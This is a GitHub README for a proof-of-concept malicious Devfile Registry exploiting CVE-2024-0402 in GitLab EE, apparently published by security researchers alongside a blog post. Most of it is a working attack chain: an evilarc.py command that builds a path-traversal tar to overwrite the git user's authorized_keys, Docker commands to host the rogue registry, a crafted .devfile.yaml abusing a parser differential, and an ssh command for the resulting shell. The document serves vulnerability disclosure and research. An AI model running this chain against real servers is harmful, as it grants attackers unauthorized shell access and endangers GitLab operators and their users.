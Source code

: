 # Malicious Devfile Registry

The project contains a malicious Devfile Registry usable to exploit CVE-2024-0402 in Gitlab.

## The Exploit

A `nodejs:2.2.1` stack is indexed to expose the `archive.tar` file exploiting the path-traversal issue in [registry-support library before v1.1.0](https://github.com/devfile/registry-support/commit/10b01bc136bd082f59b1ac0c91797f4065792d7b).

*tar location*: `malicious-devfile-registry/stacks/nodejs/2.2.1/archive.tar`

It was created using the [evilarc.py](https://github.com/ptoomey3/evilarc/blob/master/evilarc.py) to overwrite the `/var/opt/gitlab/.ssh/authorized_keys` in the target Gitlab Server with the SSH keys under `ssh-keys/` folder in this repo.

```bash
python3 evilarc.py authorized_keys -f authzkeys.tar.gz -p var/opt/gitlab/.ssh/ -o unix
```

Once running, the registry will have the malicious *.tar* added to the fetchable stacks.
See the `index.json` listing it among the stack resources:
```
...
"links": {
          "self": "devfile-catalog/nodejs:2.2.1"
        },
        ...
        "resources": [
          "devfile.yaml",
          "archive.tar"
        ],
...
```

## Reproduction Steps

Configure a Gitlab Instance EE with version <=16.8.0. Enable Workspaces on it following the docs and the extra notes in our dedicated [!exploitable series blogpost](https://blog.doyensec.com/2025/03/18/exploitable-gitlab.html). 

Whenever ready, follow the steps below:

1. Run `docker build -t devfile-index .` in the root of this repo to build the registry container image

2. Run `docker run -d -p 5000:5000 --name local-registrypoc registry:2` to run a local container registry that will be used by the Devfile registry to store the stack. **Note:** you should edit the command to expose it according to your need. For us, it was all happening in a local environment

3. Run `docker run --network host devfile-index` to start the malicious Devfile registry built at step one. **Note:** Like before, edit the run command as you wish to make it reachable by the Gitlab instance

4. Authenticate as developer to the target Gitlab server, then edit the `.devfile.yaml` of a repository you control. The YAML must exploit the parser differential to allow fetching from the malicious registry

```yaml
schemaVersion: 2.2.0
!binary parent:
    id: nodejs
    registryUrl: http://<YOUR_MALICIOUS_REGISTRY>:<PORT>
components:
  - name: development-environment
    attributes:
      gl/inject-editor: true
    container:
      image: "registry.gitlab.com/gitlab-org/gitlab-build-images/workspaces/ubuntu-24.04:20250109224147-golang-1.23@sha256:c3d5527641bc0c6f4fbbea4bb36fe225b8e9f1df69f682c927941327312bc676"
```

5. To trigger the file-write in the Gitlab UI, just start a new Workspace in the edited repo.
After few seconds, the arbitrary file write should happen and the `ssh-keys/pockey.pub` will be added to the `authorized_keys` of the `git` user

6. You should be able to enjoy an unrestricted shell as `git` with
```bash
ssh  -i ssh-keys/pockey git@<YOUR_GITLAB_SERVER>
```
